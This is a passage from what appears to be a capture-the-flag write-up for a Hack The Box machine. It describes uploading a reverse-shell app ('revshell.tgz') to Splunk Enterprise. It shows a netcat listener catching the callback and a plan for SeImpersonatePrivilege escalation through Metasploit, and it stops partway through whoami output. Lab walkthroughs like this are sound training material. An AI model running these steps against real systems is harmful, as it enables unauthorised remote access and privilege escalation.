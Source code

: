 - [http://haze.htb:8000/en-US/manager/appinstall/_upload?breadcrumbs=Settings%7C%2Fmanager%2Fsearch%2F%09Apps%7C%2Fmanager%2Fsearch%2Fapps%2Flocal%3Fmsgid%3D2697690.9519885055428504](http://haze.htb:8000/en-US/manager/appinstall/_upload?breadcrumbs=Settings%7C%2Fmanager%2Fsearch%2F%09Apps%7C%2Fmanager%2Fsearch%2Fapps%2Flocal%3Fmsgid%3D2697690.9519885055428504)

![](images/2025-03-30_10-22_8000_splunk_enterprise_app_upload.png)

And after we `successfully uploaded` and `installed` the `revshell.tgz` we instantly received the `callback` and got a session as `Alexander.Green`.

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.85] from (UNKNOWN) [10.129.135.234] 55275

PS C:\Windows\system32>
```

```powershell
PS C:\Windows\system32> whoami
haze\alexander.green
```

## Privilege Escalation to System

### SeImpersonatePrivilege Abuse

As last step of the box we `abuse` the `privilege` for `SeImpersonatePrivilege` of `Alexander.Green` using `Metasploit`.

```shell
PS C:\Windows\system32> whoami /all

USER INFORMATION
----------------

User Name            SID                                        
==================== ===========================================
haze\alexander.green S-1-5-21-323145914-28650650-2368316563-1106


GROUP INFORMATION
-----------------

```